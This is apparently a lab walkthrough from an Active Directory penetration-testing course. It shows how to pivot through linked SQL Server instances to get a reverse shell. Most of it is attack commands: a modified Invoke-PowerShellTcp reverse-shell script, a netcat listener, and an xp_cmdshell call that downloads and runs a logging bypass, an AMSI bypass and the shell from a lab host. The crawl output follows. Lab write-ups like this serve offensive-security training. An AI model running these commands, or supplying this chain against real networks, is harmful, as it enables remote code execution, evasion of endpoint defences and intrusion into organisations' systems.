**Create Invoke-PowerShellTcpEx.ps1:**

* Create a copy of Invoke-PowerShellTcp.ps1 and rename it to Invoke-PowerShellTcpEx.ps1.
* Open Invoke-PowerShellTcpEx.ps1 in PowerShell ISE (Right click on it and click Edit).
* Add "Power -Reverse -IPAddress 172.16.100.X -Port 443" (without quotes) to the end of the file.

Let's try to execute a PowerShell download execute cradle to execute a PowerShell reverse shell on the eu-sql instance, first to it, add sw on HFS and remember to edit Invoke-PowerShellTcpEx changing IP and Port

<figure><img src="../../.gitbook/assets/image (256).png" alt=""><figcaption></figcaption></figure>

After that start a listener in a new shell: `C:\AD\Tools\netcat-win32-1.12\nc64.exe -lvp 443`

```
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://172.16.100.67/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://172.16.100.67/amsibypass.txt);iex (iwr -UseBasicParsing http://172.16.100.67/Invoke-PowerShellTcpEx.ps1)"''' -QueryTarget eu-sql45
```

<figure><img src="../../.gitbook/assets/image (258).png" alt=""><figcaption></figcaption></figure>

```
Version     : SQL Server 2019
Instance    : DCORP-MSSQL
CustomQuery :
Sysadmin    : 0
Path        : {DCORP-MSSQL}
User        : dcorp\student867
Links       : {DCORP-SQL1}

Version     : SQL Server 2019
Instance    : DCORP-SQL1
CustomQuery :
Sysadmin    : 0
Path        : {DCORP-MSSQL, DCORP-SQL1}
User        : dblinkuser
Links       : {DCORP-MGMT}

Version     : SQL Server 2019
Instance    : DCORP-MGMT
CustomQuery :
```